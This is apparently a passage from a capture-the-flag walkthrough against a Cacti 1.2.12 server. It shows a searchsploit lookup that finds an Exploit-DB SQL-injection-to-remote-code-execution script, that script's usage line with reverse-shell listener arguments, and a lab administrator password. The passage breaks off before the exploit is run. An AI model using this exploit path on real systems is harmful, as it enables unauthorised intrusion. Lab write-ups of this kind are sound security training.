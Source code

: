 ![cacti](./cacti.png)

This site uses `cacti 1.2.12`. Let’s see if there are known exploits for this version:

```zsh
┌──(kali㉿kali)-[~]
└─$ searchsploit cacti 1.2.12
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Cacti 1.2.12 - 'filter' SQL Injection                                                                             | php/webapps/49810.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[~]
└─$ locate php/webapps/49810.py        
/usr/share/exploitdb/exploits/php/webapps/49810.py

└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49810.py
usage: 49810.py [-h] -t <target/host URL> -u <user> -p <password> --lhost <lhost> --lport <lport>
49810.py: error: the following arguments are required: -t, -u, -p, --lhost, --lport
```

We need a password; if we try `admin:BestAdministrator@2020!` it works.
The exploit gets an RCE via an SQLi:

